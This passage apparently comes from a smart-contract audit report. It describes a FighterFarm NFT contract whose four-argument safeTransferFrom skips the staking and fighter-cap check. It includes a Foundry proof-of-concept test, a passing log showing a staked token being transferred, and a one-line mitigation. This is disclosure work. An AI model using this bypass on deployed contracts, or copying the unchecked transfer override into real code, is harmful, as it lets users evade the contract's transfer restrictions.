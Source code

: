 ```
        _safeTransfer(from, to, tokenId, data);
    }
```

As a result, the user's hero amount can exceed MAX_FIGHTERS_ALLOWED and the staked hero can also be transferred.

The PoC is shown below (in ```FighterFarm.t.sol```):
```
    function testTransferringWithDataToBypassCheck() public {
        _mintFromMergingPool(_ownerAddress);
        _fighterFarmContract.addStaker(_ownerAddress);
        _fighterFarmContract.updateFighterStaking(0, true);
        assertEq(_fighterFarmContract.fighterStaked(0), true);
        // check that i'm unable to transfer since i staked
        emit log_string("try using transferFrom with check");
        vm.expectRevert();
        _fighterFarmContract.transferFrom(_ownerAddress, _DELEGATED_ADDRESS, 0);
        assertEq(_fighterFarmContract.ownerOf(0) != _DELEGATED_ADDRESS, true);
        assertEq(_fighterFarmContract.ownerOf(0), _ownerAddress);
        emit log_named_address("the token 0 owner using transferFrom", _fighterFarmContract.ownerOf(0));

        // check that i'm unable to transfer since i staked
        emit log_string("try using safeTransferFrom with check");
        vm.expectRevert();
        _fighterFarmContract.safeTransferFrom(_ownerAddress, _DELEGATED_ADDRESS, 0);
        assertEq(_fighterFarmContract.ownerOf(0) != _DELEGATED_ADDRESS, true);
        assertEq(_fighterFarmContract.ownerOf(0), _ownerAddress);
        emit log_named_address("the token 0 owner using safeTransferFrom(3 args)", _fighterFarmContract.ownerOf(0));

        // check that i could bypass the check to transfer after staking
        emit log_string("try using safeTransferFrom without check");
        _fighterFarmContract.safeTransferFrom(_ownerAddress, _DELEGATED_ADDRESS, 0, "");
        assertEq(_fighterFarmContract.ownerOf(0), _DELEGATED_ADDRESS);
        emit log_named_address("the token 0 owner using safeTransferFrom(4 args)", _fighterFarmContract.ownerOf(0));
    }
```

The log is shown below:
```
[PASS] testTransferringWithDataToBypassCheck() (gas: 524412)
Logs:
  try using transferFrom with check
  the token 0 owner using transferFrom: 0x90193C961A926261B756D1E5bb255e67ff9498A1
  try using safeTransferFrom with check
  the token 0 owner using safeTransferFrom(3 args): 0x90193C961A926261B756D1E5bb255e67ff9498A1
  try using safeTransferFrom without check
  the token 0 owner using safeTransferFrom(4 args): 0x22F4441ad6DbD602dFdE5Cd8A38F6CAdE68860b0
```
## Recommended Mitigation Steps
Implement function ```safeTransferFrom(address, address, uint256, bytes memory)``` by adding ```_ableToTransfer``` in the function.
